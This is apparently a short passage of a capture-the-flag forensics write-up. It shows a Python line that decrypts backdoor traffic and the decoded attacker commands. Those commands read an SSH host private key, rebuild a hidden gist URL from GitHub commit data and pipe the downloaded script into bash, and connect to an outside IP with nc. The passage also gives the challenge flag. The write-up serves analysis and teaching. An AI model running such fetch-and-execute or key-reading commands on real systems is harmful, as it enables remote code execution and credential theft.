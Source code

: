 ```python
    cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
    print(cmd.decode())
```

Here we go:
```console
$ python3 sol.py
id
ls /
echo FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}
cat /data/runtime/etc/ssh/ssh_host_rsa_key
/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a
cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d '"' -f 2 | tr -d '
' | grep -o . | tac | tr -d '
'  > /tmp/b
a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep 'raw_url' | cut -d '"' -f 4 > /tmp/c
c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash
rm /tmp/a /tmp/b /tmp/c
nc 146.0.228.66:1337
```

## Python
Python code to decrypt the communication through the backdoor: [sol.py](./sol.py)

## Flag
> FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}
